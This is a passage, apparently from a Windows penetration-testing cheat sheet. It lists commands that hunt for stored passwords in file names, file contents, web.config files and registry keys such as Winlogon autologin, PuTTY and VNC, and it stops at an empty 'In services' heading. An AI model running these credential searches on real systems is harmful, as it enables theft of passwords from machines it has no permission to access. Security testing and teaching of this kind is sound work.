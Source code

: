 ### In file name

```bat
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini

findstr /si password *.xml *.ini *.txt *.config 2>nul
Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"
```

### In file content

```bat
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*

dir /s *pass* == *vnc* == *.config* 2>nul
Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue

Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

### In registry

```bat
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList

Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```

### In services
